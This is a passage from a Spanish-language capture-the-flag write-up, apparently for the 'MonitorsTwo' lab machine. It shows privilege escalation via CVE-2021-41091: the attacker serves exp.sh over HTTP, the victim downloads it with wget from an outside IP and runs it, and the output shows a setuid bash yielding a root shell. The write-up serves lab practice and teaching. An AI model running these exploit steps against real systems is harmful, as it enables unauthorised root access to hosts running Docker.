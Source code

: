 ```bash
❯ cd CVE-2021-41091
❯ ls
 exp.sh   README.md
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Descargamos el exploit en la máquina víctima.

```bash
marcus@monitorstwo:/tmp$ wget http://10.10.14.41/exp.sh
--2023-06-22 01:07:46--  http://10.10.14.41/exp.sh
Connecting to 10.10.14.41:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2446 (2.4K) [text/x-sh]
Saving to: ‘exp.sh’

exp.sh                                        100%[===============================================================================================>]   2.39K  --.-KB/s    in 0.001s  

2023-06-22 01:07:46 (3.33 MB/s) - ‘exp.sh’ saved [2446/2446]
```

Lo ejecutamos conforme a lo estipulado en los pasos 2 y 4.

```bash
marcus@monitorstwo:/tmp$ chmod +x exp.sh 
marcus@monitorstwo:/tmp$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

